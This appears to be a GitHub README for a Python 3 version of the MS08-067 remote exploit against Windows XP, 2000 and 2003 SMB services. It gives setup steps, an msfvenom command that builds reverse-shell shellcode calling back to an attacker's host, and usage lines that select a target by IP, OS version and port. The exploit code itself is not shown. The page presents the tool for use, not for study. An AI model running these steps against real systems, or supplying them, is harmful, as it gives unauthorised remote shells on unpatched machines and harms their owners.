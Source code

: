 <h1>MS08_067 Exploit Script - Updated 2021 - Python 3 Version</h1>

This is an updated version of the super old MS08-067 exploit script. Versionated to Python 3.

Cloned and edited from this repository:
https://github.com/andyacer/ms08_067

<h2>Use on Kali</h2>

<p>git clone https://github.com/EVL87/ms08_067</p>
<p>cd ms08-067</p>
<p>sudo apt-get install python3-pip</p>
<p>pip install pycrypto</p>

<h2>Generating Shellcode</h2>
<p>Example msfvenom commands to generate shellcode. Just paste these into the file which you'll edit after downloading. 'Cause you're an awesome hacker like that.</p>
<li>msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows</li>

<h2>Usage</h2>
<h3>Usage: python3 ms08-067_p3.py <IP> <os #> <Port #></h3>

<li>python3 ms08-067_p3.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445</li>
<li>python3 ms08-067_p3.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)</li>
<li>python3 ms08-067_p3.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal</li>
<li>python3 ms08-067_p3.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English</li>
<li>python3 ms08-067_p3.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)</li>
<li>python3 ms08-067_p3.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)</li>
<li>python3 ms08-067_p3.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)</li>
